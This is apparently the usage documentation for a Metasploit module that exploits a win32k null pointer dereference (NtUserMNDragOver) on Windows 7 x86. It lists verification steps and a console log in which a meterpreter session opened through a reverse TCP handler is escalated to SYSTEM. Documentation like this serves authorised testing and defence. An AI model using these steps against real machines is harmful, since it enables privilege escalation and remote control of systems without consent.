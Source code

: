 ## Vulnerable Application

This module exploits a null pointer deference in win32k triggered by the NTUserMNDragOver syscall.
After receiving the menu window object returned by the window procedure function, the xxxMNFindWindowFromPoint function does not effectively check the validity of its member tagPOPUPMENU, causing the subsequent MNGetpItemFromIndex function to trigger the NULL pointer deference.
This module has been tested against Windows 7 x86 SP0 and SP1. Offsets within the solution may need to be adjusted to work with other versions of Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 x86
2. `use exploit/windows/local/ntusermndragover`
3. `set session <session>`
4. `exploit`
5. Get a SYSTEM session

## Scenarios

### Windows 7 SP0 x86

```
msf5 exploit(windows/local/ntusermndragover) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:4446
[*] Launching notepad.exe to host the exploit...
[+] Process 3388 launched.
[*] Injecting exploit into 3388 ...
[*] Executing exploit...
[*] Sending stage (180291 bytes) to 192.168.56.15
[*] Meterpreter session 2 opened (192.168.56.1:4446 -> 192.168.56.15:49173) at 2020-04-17 18:34:58 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
